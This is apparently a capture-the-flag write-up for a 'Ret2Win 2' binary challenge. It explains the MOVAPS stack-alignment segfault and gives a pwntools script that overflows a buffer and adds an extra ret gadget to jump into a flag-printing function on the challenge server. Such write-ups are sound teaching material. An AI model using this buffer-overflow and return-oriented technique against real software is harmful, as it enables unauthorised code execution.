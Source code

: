 # Ret2Win 2
This challenge is exactly the same as Ret2Win however, the same solution won't work for this challenge.

The reason for this is stack alignment issues. This is generally called the `MOVAPS` issue and happens when you return into a function that calls a GLIBC function which uses the `movaps` operation. When you do this on unaligned data it results in a segfault. The way to fix this is to pad your ROP chain with an extra `ret` gadget before returning into the function you are calling.

So you can use the following `pwntools` script to solve this

```python
from pwn import *

r = remote("ggc.tf", 31338)
binary = ELF("./chal")
payload = b""
payload += b"a" * 18
payload += p64(binary.sym["call_me_to_get_the_flag"] + 161) # Ret gadget
payload += p64(binary.sym["call_me_to_get_the_flag"]) # Function to call
r.sendlineafter(b"Hello, what is your name?", payload)
r.interactive()
```
